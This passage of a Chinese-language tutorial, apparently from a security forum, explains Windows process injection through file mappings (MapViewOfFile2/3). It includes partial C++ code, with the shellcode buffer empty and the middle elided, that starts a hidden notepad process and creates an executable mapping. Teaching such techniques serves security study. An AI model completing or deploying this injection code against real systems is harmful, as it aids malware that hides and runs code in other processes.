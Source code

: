 ![3.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-1600fb23ab9e21703da79ae0858ed70b0c4124b9.png)  
那怎么实现远程线程注入呢，也是非常的简单，只需要调用MapViewOfFile2或者MapViewOfFile3函数，将创建的映射对象映射到指定进程即可

实现思路如下：

- 使用CreateProcessA函数创建一个进程
- 用CreateFileMappingA函数创建一个文件映射对象
- 使用MapViewOfFile将文件映射对象映射到本地进程内存空间中
- 然后将我们的数据写入到内存空间中
- 利用MapViewOfFile2或MapViewOfFile3函数将创建的文件映射对象，映射到指定的进程中
- 最后调用执行即可

因为在MapViewOfFile阶段，映射到本地进程内存空间中后，我们利用memcpy将数据写入了内存空间，所有当调用MapViewOfFile2或MapViewOfFile3将映射对象映射到别的进程内存空间中后，其内存空间中也就存在了我们之前写入的数据

```php
#include <windows.h>
#include <iostream>

#pragma comment(lib, "onecore.lib")
using namespace std;

int main() {
    unsigned char buf[] = "";

    DWORD pflOldProtect = 0;
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    memset(&si, 0, sizeof(si));
    si.cb = sizeof(STARTUPINFO);
    si.dwFlags = STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_HIDE; //隐藏要启动的进程

    CreateProcessA(NULL, (LPSTR)"notepad.exe", NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, NULL, &si, &pi);
    //创建一个文件映射对象
    HANDLE CreateFileM = CreateFileMappingA(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(buf), NULL);
    //将创建的文件映射对象映射到当前进程的内存空间
    LPVOID MapView = MapViewOfFile(CreateFileM, FILE_MAP_EXECUTE | FILE_MAP_READ | FILE_MAP_WRITE, 0, 0, 0);

    ................................................
        ................................................
        ................................................

    UnmapViewOfFile(MapView2);
    UnmapViewOfFile(MapView);
    CloseHandle(CreateFileM);
    CloseHandle(pi.hProcess);
}
```
